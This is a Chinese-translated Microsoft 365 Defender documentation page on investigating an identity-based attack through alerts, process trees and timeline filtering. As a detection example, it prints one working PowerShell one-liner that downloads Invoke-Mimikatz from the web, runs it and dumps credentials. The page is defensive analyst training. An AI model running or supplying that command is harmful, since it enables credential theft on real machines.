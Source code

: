 ```yaml
---
title: 基于身份的攻击示例
description: 逐步完成基于身份的攻击的示例分析。
keywords: 事件， 警报， 调查， 关联， 攻击， 计算机， 设备， 用户， 标识， 标识， 邮箱， 电子邮件， 365， microsoft， m365， 事件响应， 网络攻击
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: f0695f406bdc2063c58d87c61032d120442928e5
ms.sourcegitcommit: c2d752718aedf958db6b403cc12b972ed1215c00
ms.translationtype: MT
ms.contentlocale: zh-CN
ms.lasthandoff: 08/26/2021
ms.locfileid: "58573507"
---
```

# <a name="example-of-an-identity-based-attack"></a>基于身份的攻击示例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**适用于：**
- Microsoft 365 Defender

Microsoft Defender for Identity 可帮助检测恶意尝试泄露组织标识。 由于 Defender for Identity 与 Microsoft 365 Defender集成，因此安全分析师可以了解来自 Defender for Identity 的威胁，例如可疑的 Netlogon 特权提升尝试。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>分析 Microsoft Defender 中针对标识的攻击

Microsoft 365 Defender分析员可以在事件页面的"警报"选项卡上按检测源筛选警报。 在下面的示例中，将检测源筛选为 Defender **for Identity**。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="筛选 Defender for Identity 的检测源的示例。":::

选择 **可疑的哈希攻击警报** 将转到显示Microsoft Cloud App Security详细信息的页面。 通过选择"了解有关此警报类型"以阅读攻击描述和修正建议，你始终可以了解有关警报或[](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)攻击的更多信息。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="可疑的哈希攻击警报示例。"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>调查 Microsoft Defender for Endpoint 中的相同攻击

或者，分析员可以使用 Defender for Endpoint 了解有关终结点上活动更多信息。 从事件队列中选择事件，然后选择" **警报"** 选项卡。在这里，他们还可以识别检测源。 标记为终结点的检测源EDR终结点检测和响应，即终结点的 Defender。 从此处，分析员选择由用户检测到EDR。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Defender for Endpoint 中的终结点检测和响应示例。"::: 

警报页面显示各种相关信息，如影响的设备名称、用户名、自动调查的状态以及警报详细信息。 警报情景描述进程树的可视化表示形式。 进程树是与警报相关的父进程和子进程的分层表示形式。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Defender for Endpoint 中的警报进程树示例。"::: 

可以展开每个进程以查看其他详细信息。 分析员可以看到的详细信息是作为恶意脚本的一部分输入的实际命令、出站连接 IP 地址和其他有用信息。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Defender for Endpoint 中进程详细信息的示例。":::
 
通过选择 **"在时间线中** 查看"，分析员可以进一步向下钻取以确定泄露的确切时间。 

Microsoft Defender for Endpoint 可以检测许多恶意文件和脚本。 但是，由于出站连接、PowerShell 和命令行活动的许多合法用途，某些活动在创建恶意文件或活动之前被认为是恶意活动。 因此，使用时间线可帮助分析员将警报置于与周围活动的上下文中，以确定攻击的原始源或时间，否则，常见文件系统和用户活动会掩盖这些攻击。 

为完成此操作，分析员将在警报检测 (以红色) 并向后滚动以确定导致恶意活动的原始活动何时实际启动。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="警报检测时开始的示例。"::: 

必须了解并区分常见活动，如 Windows 更新连接、Windows 受信任的软件激活流量、与 Microsoft 站点的其他常见连接、第三方 Internet 活动、Microsoft Endpoint Configuration Manager 活动以及其他恶意活动与可疑活动。 实现此目的的一个方法就是使用时间线筛选器。 有许多筛选器可在筛选掉分析员不想查看的一切内容时突出显示特定活动。 

在下图中，分析员经过筛选，以便仅查看网络和处理事件。 这允许分析师查看与事件（记事本 IP 地址建立连接）周围的网络连接和进程，我们还在进程树中也看到此连接。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="如何使用 记事本进行恶意出站连接的示例。"::: 

在此特定事件，记事本恶意出站连接。 但是，攻击者通常只会iexplorer.exe来建立连接来下载恶意负载，因为通常iexplorer.exe进程被视为常规 Web 浏览器活动。

时间线中要查找的另一项是 PowerShell 用于出站连接。 分析员会通过命令（如 后跟托管恶意文件的网站的出站连接）查找成功的 PowerShell `IEX (New-Object Net.Webclient)` 连接。 

在下面的示例中，PowerShell 用于从网站下载和执行 Mimikatz：

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
分析员可以通过在搜索栏中键入关键字来快速搜索关键字，以仅显示使用 PowerShell 创建的事件。 

## <a name="next-step"></a>后续步骤

请参阅 [网络钓鱼调查](first-incident-path-phishing.md) 路径。

## <a name="see-also"></a>另请参阅

- [事件概述](incidents-overview.md)
- [管理事件](manage-incidents.md)
- [调查事件](investigate-incidents.md)
